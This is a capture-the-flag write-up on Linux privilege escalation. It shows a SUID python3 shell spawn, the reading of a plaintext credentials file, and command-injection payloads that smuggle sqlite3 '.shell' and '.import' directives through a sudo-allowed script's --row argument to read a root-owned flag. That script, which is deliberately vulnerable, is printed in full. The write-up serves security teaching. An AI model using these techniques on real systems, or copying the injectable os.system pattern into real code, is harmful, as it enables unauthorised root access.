```yaml
---
description: SUID and Sudo misconfigurations
---
```


# Space University of Interior Design

## Description

Storytelling is the root of interior design.

`nc 20.198.209.142 55022`

_The flag is in the flag format: STC{...}_

**Author: zeyu2001**

## Solution

We start off as a guest user, and need to escalate our privileges to get the flag.

```text
$ id
uid=1001(guest) gid=1001(guest) groups=1001(guest)
```

Let's find all files with SUID permissions.

```text
$ find / -perm /4000 
/bin/umount
/bin/ping
/bin/mount
/bin/su
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/python3.7
/usr/bin/sudo
```

We find that Python has SUID permissions. Refer to [https://gtfobins.github.io/gtfobins/python/](https://gtfobins.github.io/gtfobins/python/). 

This allows us to gain the privileges of the file owner.

Use the following command, and observe that our EUID has changed to that of `jared`.

```text
$ python3 -c 'import os; os.execl("/bin/sh", "sh", "-p")'
$ id
uid=1001(guest) gid=1001(guest) euid=1000(jared) groups=1001(guest)
```

Without having the true UID set to that of `jared`, we cannot `sudo`. But while we were previously unable to view `jared`'s files, we can now view them.

```text
$ ls -la jared
total 900
drwx------ 1 jared jared   4096 Jul  8 18:48 .
drwxr-xr-x 1 jared jared   4096 Jul  8 18:39 ..
-rwx------ 1 jared jared    220 Apr 18  2019 .bash_logout
-rwx------ 1 jared jared   3526 Apr 18  2019 .bashrc
-rwx------ 1 jared jared    807 Apr 18  2019 .profile
-rwx------ 1 jared jared 884736 Nov 29  2015 chinook.db
-rwx------ 1 jared jared    117 Jul  8 18:38 creds.txt
-rwx------ 1 jared jared    668 Jul  8 17:58 query_db.py
```

There is an interesting file in `jared`'s directory.

```text
$ cat jared/creds.txt
In case I forget my credentials.

jared:iamrich

Thanks to my awesome sysadmin, no one else can see this file!
```

We found `jared`'s credentials. Now, we can `su` to gain full permissions. Observe that the true UID is now that of `jared`.

```text
$ id
uid=1001(guest) gid=1001(guest) euid=1000(jared) groups=1001(guest)

$ su jared
iamrich

$ id
uid=1000(jared) gid=1000(jared) groups=1000(jared),27(sudo)
```

If we check our `sudo` privileges, we find that we can execute `query_db.py` with elevated privileges.

```text
$ sudo -l 
Matching Defaults entries for jared on fa9f84013480:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jared may run the following commands on fa9f84013480:
    (ALL) NOPASSWD: /home/jared/query_db.py
```

This Python file queries the `chinook.db` database, and allows a `--row` argument.

```python
#!/usr/bin/python3
import os
import tempfile
import argparse


def query_db(row):
    
    if not row:
        row = 'FirstName'

    sql = f".open /home/jared/chinook.db\nSELECT {row} FROM employees;"
    os.system(f'echo "{sql}" | /usr/bin/sqlite3')

    print("Done!")

if __name__ == '__main__':
    parser = argparse.ArgumentParser()
    parser.add_argument("--row", help="Row to query")
    args = parser.parse_args()

    query_db(args.row)
```

If we refer to [https://gtfobins.github.io/gtfobins/sqlite3/](https://gtfobins.github.io/gtfobins/sqlite3/), we can find some payloads to help us. Here are two working payloads to get the flag.

### Payload 1

`sqlite3` has the `.shell` command, which allows you to run system commands.

```text
.shell CMD ARGS...       Run CMD ARGS... in a system shell
```

We can use this to run `cat /root/flag.txt`.

```text
$ sudo ./query_db.py --row "FirstName FROM employees;\n.shell cat /root/flag.txt;\nSELECT FirstName"
Andrew
Nancy
Jane
Margaret
Steve
Michael
Robert
Laura
STC{sud0_4nd_su1d_ea4b1d43ddf99e0c8f3338c8e33d5808}Andrew
Nancy
Jane
Margaret
Steve
Michael
Robert
Laura
Done!
```

### Payload 2

We can alternatively use `.import` to import data from a file into a table.

```text
$ sudo ./query_db.py --row "FirstName FROM employees;\n.open\nCREATE TABLE a(line TEXT);\n.import /root/flag.txt a\nSELECT * FROM a;\nSELECT FirstName"
Andrew
Nancy
Jane
Margaret
Steve
Michael
Robert
Laura
STC{sud0_4nd_su1d_ea4b1d43ddf99e0c8f3338c8e33d5808}
Done!
```

Both are equally valid! The flag is `STC{sud0_4nd_su1d_ea4b1d43ddf99e0c8f3338c8e33d5808}`.

